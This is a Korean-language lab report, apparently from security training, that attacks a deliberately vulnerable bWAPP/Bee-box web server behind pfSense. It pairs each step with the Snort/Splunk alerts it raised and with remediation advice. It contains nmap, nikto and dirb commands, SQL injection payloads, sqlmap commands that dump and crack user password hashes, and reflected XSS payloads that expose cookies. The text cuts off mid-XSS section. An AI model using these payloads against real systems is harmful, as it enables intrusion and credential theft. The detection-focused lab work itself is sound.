










# Phase 1. 공격 수행

> att-mint(10.50.50.17) → pfSense NAT → Bee-box(10.0.10.50)

---

## 사전 준비

### 도구 설치 (att-mint)

```bash
sudo apt update
sudo apt install -y nmap nikto dirb hydra curl
# sqlmap
sudo apt install -y sqlmap
```

### 접속 확인

```bash
# pfSense NAT를 통해 Bee-box 웹서버 접근
curl -I http://10.0.0.254

# 직접 접근 (DMZ 내부 경로)
ping 10.0.10.50
```

### bWAPP 설정

1. http://10.0.0.254/bWAPP/ 접속
2. bee / bug 로그인
3. Security Level → **low** 설정

---

## 정찰 단계 (Reconnaissance)

> **정찰이란?** 공격 대상의 정보를 모아 "무엇을 어떻게 공격할지" 정하기 위한 사전 조사 단계.
> 아래 4단계는 **넓게 → 좁게**, **네트워크 → 서비스 → 웹설정 → 애플리케이션** 순으로 정보를 좁혀간다.

### 정찰 요약 — 무엇을, 왜 정찰했나

| 단계 | 도구 | 무엇을 정찰 | 왜 (목적) | 얻은 정보 → 다음 단계 |
|------|------|------------|-----------|----------------------|
| R-1 | `nmap -sS` | 열린 포트 / 공격표면 | 어디로 들어갈 수 있나(진입점) | 80/tcp만 열림 → 웹이 유일 표적 |
| R-2 | `nmap -sV` | 서비스·버전 | 무슨 SW 몇 버전인가(취약점 연결) | Apache 2.2.8·PHP 5.2.4(EOL) → CVE 후보 |
| R-3 | `nikto` | 웹서버 취약점·설정 | 웹서버 레벨 약점(설정·기본파일·헤더) | TRACE·phpMyAdmin·CVE-2002-0082 |
| R-4 | `dirb` | 숨은 경로·파일 | 앱 레벨 진입점(관리페이지·설치앱) | /drupal·/phpmyadmin·/webdav |

### 정찰의 논리 (왜 이 순서인가)

1. **R-1 포트스캔** — 가장 먼저 "무엇이 열려 있나". 열린 포트 = 공격 진입점.
   대상은 **80(HTTP)만** 열려 있어 → 이후 모든 공격을 **웹**에 집중.
2. **R-2 버전탐지** — 열린 서비스가 "무엇의 몇 버전인지". 구버전이면 알려진 취약점(CVE)으로 직결.
   → Apache 2.2.8·PHP 5.2.4·OpenSSL 0.9.8g 전부 EOL.
3. **R-3 웹 스캔(nikto)** — 웹서버 "설정·구성" 레벨 약점을 자동 점검(수천 요청). TRACE·기본파일·헤더 부재·관리도구 노출.
4. **R-4 디렉토리 탐색(dirb)** — 링크에 안 드러나는 "숨은 경로·설치앱"을 워드리스트로 발굴. 관리자 페이지·Drupal·백업파일 = 추가 공격면.

→ **포트(어디로) → 버전(무엇을) → 웹설정(어떤 약점) → 숨은경로(추가 진입점)** 순으로 공격 지도를 완성.
   이 정보로 다음의 웹 공격(E-1~E-7) 대상을 정한다.

### 방어·탐지 관점 요약

- 정찰은 **대량·비정상 트래픽**이라 IPS(Snort)로 잘 탐지됨: 포트스캔=`sfPortscan`, 웹 스캔=다수 `ET WEB_SERVER` 룰, 민감파일 탐색=`GPL WEB_SERVER` 룰.
- 방어 권고: 불필요 포트/서비스 차단, 버전 배너 최소화, 디렉토리 인덱싱·기본파일·관리도구 노출 제거, 스캔성 트래픽 rate-limit.
- 관제 포인트: 짧은 시간에 **동일 출발지(10.50.50.17)에서 대량 요청·다수 시그니처** = 정찰 징후 → 조기 차단 근거.

---

### R-1. TCP 포트 스캔

```bash
# pfSense가 WAN ICMP를 차단하므로 -Pn(핑 생략) 필요
sudo nmap -sS -Pn -p 1-1000 10.0.0.254 -oN scan_tcp.txt
```

- 목적: 열린 포트/서비스 파악
- 예상 결과: 80/tcp open (HTTP)
- Snort 예상 탐지: sfPortscan

**결과:** ✅ (2026-08-03 19:50 KST)

```
Nmap scan report for 10.0.0.254
Host is up (0.0023s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE
80/tcp open  http
Nmap done: 1 IP address (1 host up) scanned in 19.62 seconds
```

- 열린 포트: **80/tcp (HTTP)** — 나머지 999개는 `filtered`(pfSense가 드롭)
- 공격자 IP: **10.50.50.17** (NAT로 가려지지 않고 원본 그대로 로깅됨)
- **Snort 탐지 성공** — Splunk `index=pfsense`에서 확인:
  ```
  snort[86242]: [122:5:1] (portscan) TCP Filtered Portscan
  [Classification: Attempted Information Leak] [Priority: 2] 10.50.50.17 -> 10.0.0.254
  ```
- 특이사항: pfSense 방화벽은 통과/차단 SYN을 기본 로깅하지 않아, **포트스캔 탐지는 Snort sfPortscan이 담당**함을 확인 (방화벽 로그가 아닌 IPS 계층 탐지).

**스크린샷:**




### R-2. 서비스 버전 탐지

```bash
sudo nmap -sV -Pn 10.0.0.254 -oN scan_version.txt
```

- 목적: OS, 웹서버 버전 식별
- 예상 결과: Apache, PHP 버전 등

**결과:** ✅ (2026-08-03 19:58 KST)

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2 mod_fastcgi/2.4.6
                     PHP/5.2.4-2ubuntu5 with Suhosin-Patch mod_ssl/2.2.8 OpenSSL/0.9.8g)
```

- 식별된 버전 (전부 EOL·구버전 → 정보 노출):
  - **Apache httpd 2.2.8**, **PHP 5.2.4**, mod_ssl 2.2.8, **OpenSSL 0.9.8g**, mod_fastcgi 2.4.6
- 컨설팅 관점: 버전 배너를 그대로 노출 → 알려진 CVE 매핑 근거 (**V-07 정보 노출**)
- 탐지: 단일 열린 포트(80) 대상 버전 프로브라 별도 IPS 경보는 미미 — R-1 스캔과 함께 정찰 트래픽으로 묶임

**스크린샷:**


### R-3. 웹 취약점 스캔

```bash
nikto -h http://10.0.0.254 -o nikto_result.txt
```

- 목적: 웹서버 취약점 자동 탐색
- Snort 예상 탐지: ET SCAN Nikto Web App Scanner

**결과:** ✅ (2026-08-03 20:01 KST)

nikto 주요 발견 (6544개 점검, 21개 보고):
- 서버 버전 노출: Apache 2.2.8 / PHP 5.2.4 (전부 outdated)
- **HTTP TRACE 활성** → XST 취약 (OSVDB-877)
- **CVE-2002-0082** (mod_ssl 2.2.8 / OpenSSL 0.9.8g 원격 버퍼 오버플로우)
- **phpMyAdmin 노출** (`/phpmyadmin/`, `changelog.php`) — 관리도구 외부 접근 가능
- `/icons/` **디렉토리 인덱싱** 활성
- 기본 파일 노출: `/README`, `/INSTALL.txt`
- 보안 헤더 부재: X-Frame-Options 없음, phpMyAdmin 쿠키 HttpOnly 없음

**Snort 탐지 성공** — nikto 스캔이 15분간 Splunk에 **868 이벤트** 유발. 대표 시그니처:
```
ET WEB_SERVER /etc/passwd Detected in URI    [Attempted Information Leak]
ET WEB_SERVER /etc/shadow Detected in URI    [Attempted Information Leak]
(http_inspect) WEBROOT DIRECTORY TRAVERSAL
ET WEB_SERVER WEB-PHP phpinfo access         [Information Leak]
ET WEB_SERVER Script tag in URI Possible XSS Attempt   [Web Application Attack]
ET WEB_SERVER Exploit Suspected PHP Injection Attack (cmd=)
ET WEB_SPECIFIC_APPS ... Remote File Inclusion Attempt
```
- 예상(ET SCAN Nikto)보다 훨씬 풍부 — nikto의 각 프로브가 개별 웹공격 시그니처를 다량 트리거
- 컨설팅 관점: TRACE·디렉토리 인덱싱·기본파일·헤더부재 → **V-08 보안설정 미흡**, phpMyAdmin·phpinfo 노출 → **V-07 정보노출**

**스크린샷:**


### R-4. 디렉토리 브루트포스

```bash
dirb http://10.0.0.254 -o dirb_result.txt
```

- 목적: 숨겨진 경로/파일 탐색

**결과:** ✅ (2026-08-03 20:05 KST)

dirb 발견 (4612 단어 점검, 20개 발견):
- **디렉토리/파일 노출**: `/drupal/`(Drupal 앱 — /install·/LICENSE·/modules 등), `/phpmyadmin/`, `/webdav/`, `/server-status`(Apache 상태페이지), `/README`, `/crossdomain.xml`
- 다수 디렉토리 **LISTABLE(디렉토리 인덱싱 활성)** — /drupal/modules·/profiles·/scripts·/sites·/themes, /phpmyadmin/js·/libraries 등
- `/drupal/cron` → 403

**Snort 탐지 성공** — dirb의 민감 파일 탐색을 GPL WEB_SERVER 룰이 다수 탐지:
```
GPL WEB_SERVER .htpasswd access        [Web Application Attack]
GPL WEB_SERVER .htaccess access        [Attempted Information Leak]
GPL WEB_SERVER /~root access
GPL WEB_SERVER printenv access
GPL WEB_SERVER global.asa access
GPL WEB_SERVER iisadmin access
GPL WEB_SERVER 403 Forbidden
ET WEB_SERVER WEB-PHP phpinfo access
```
- 참고: 사전조사에서 "dirb는 탐지가 약할 수 있다"고 봤으나 **실제로는 민감파일 접근 시그니처로 잘 탐지됨** (예상 대비 좋은 결과 — 문서 갱신 포인트)
- 컨설팅 관점: 디렉토리 인덱싱·server-status·phpMyAdmin·webdav·Drupal 노출 → **V-08 보안설정 미흡 / V-07 정보노출**

**스크린샷:**




---

## 웹 공격 단계 (Exploitation)

### E-1. SQL Injection (수동)

**bWAPP 메뉴:** SQL Injection (GET/Search)

```
# 인증 우회
' OR 1=1--

# 데이터 추출
' UNION SELECT 1,login,password,4,5,6,7 FROM users--
```

- Snort 예상 탐지: ET WEB_SERVER SQL Injection Attempt

**결과:** ✅ (2026-08-04 09:29 KST)

**공격 페이로드 & 결과:**
- Boolean SQLi: `' OR '1'='1` → 검색 결과에 **전체 영화 목록** 반환 (쿼리 구조 변조 확인)
- UNION 데이터 추출: `' UNION SELECT 1,login,password,4,5,6,7 FROM users-- -`
  → users 테이블 **계정·비밀번호 해시 유출**:
  ```
  A.I.M.  6885858486f31043e5839c735d99457f045affd0
  bee     6885858486f31043e5839c735d99457f045affd0
  foo     0beec7b5ea3f0fdbc95d0dd47f3c5bc275da8a33
  ```
  (SHA1 해시 — 예: `6885...affd0` = "bug")

**Snort 탐지 성공** (Splunk `index=pfsense 10.50.50.17`, 4건):
```
ET WEB_SERVER SELECT USER SQL Injection Attempt in URI  [Web Application Attack, P1]  10.50.50.17 -> 10.0.0.254:80
ET WEB_SERVER SQL Errors in HTTP 200 Response (error in your SQL syntax)  [P2]  10.0.0.254:80 -> 10.50.50.17
```
- 공격 요청(SQLi in URI) + 서버 응답의 SQL 에러 노출까지 **양방향 탐지**
- 컨설팅 관점: 인증우회·전체 DB 유출 → **V-01 SQL Injection (Critical)**. 개선: Prepared Statement·입력검증·에러 숨김·DB 최소권한

**스크린샷:**




### E-2. SQL Injection (sqlmap 자동화)

```bash
# DB 목록 추출
sqlmap -u "http://10.0.0.254/bWAPP/sqli_1.php?title=test&action=search" \
  --cookie="PHPSESSID=<세션값>;security_level=0" \
  --dbs

# 테이블 추출
sqlmap -u "..." --cookie="..." -D bWAPP --tables

# 데이터 덤프
sqlmap -u "..." --cookie="..." -D bWAPP -T users --dump
```

- Snort 예상 탐지: ET WEB_SERVER sqlmap User Agent

**결과:** ✅ (2026-08-04 09:37 KST)

**sqlmap 자동 공격 결과:**
- 주입점: `title` 파라미터 — boolean/error/time-based/UNION(7컬럼) 모두 injectable, DBMS = MySQL (133회 요청으로 자동 탐지)
- DB 목록: **bWAPP, drupageddon, information_schema, mysql** (4개)
- users 테이블 덤프 + **해시 자동 크랙**:
  ```
  id  login   password(SHA1)                              admin  cracked
  1   A.I.M.  6885858486f31043e5839c735d99457f045affd0    1      bug
  2   bee     6885858486f31043e5839c735d99457f045affd0    1      bug
  3   foo     0beec7b5ea3f0fdbc95d0dd47f3c5bc275da8a33    0      foo
  ```

**Snort 탐지 성공** (Splunk `index=pfsense 10.50.50.17`, 15분간 **211 이벤트**):
```
ET SCAN Sqlmap SQL Injection Scan                            [Attempted Information Leak]  ← sqlmap 도구 식별
ET WEB_SERVER SELECT USER SQL Injection Attempt in URI       [Web Application Attack, P1]
ET WEB_SERVER Possible SQL Injection SELECT CAST in HTTP URI [Administrator Privilege Gain]
ET WEB_SERVER Possible MySQL SQLi Attempt Information Schema Access
ET WEB_SERVER ATTACKER SQLi - SELECT and Schema Columns
ET WEB_SERVER Possible Attempt to Get SQL Server Version (SELECT VERSION)
```
- 수동(E-1) 4건 ↔ 자동(E-2) **211건** — 자동화 도구는 트래픽·시그니처가 폭증해 **탐지가 매우 쉬움**
- 관제 관점: `ET SCAN Sqlmap` = 자동화 공격도구 사용의 명확한 지표 → 즉시 차단 근거
- 컨설팅 관점: E-1과 동일 **V-01 SQL Injection (Critical)**

**스크린샷:**




### E-3. Reflected XSS

**bWAPP 메뉴:** XSS - Reflected (GET)

```html
<script>alert('XSS')</script>
<script>alert(document.cookie)</script>

```

- Snort 예상 탐지: ET WEB_SERVER XSS Attempt

**결과:** ✅ (2026-08-04 10:03 KST)

**공격 페이로드 & 결과:**
- `<script>alert('XSS')</script>` → First name 입력 → alert 팝업에 **"XSS"** 출력 (스크립트 실행 확인)
- `<script>alert(document.cookie)</script>` → alert 팝업에 **쿠키 노출**:
  ```
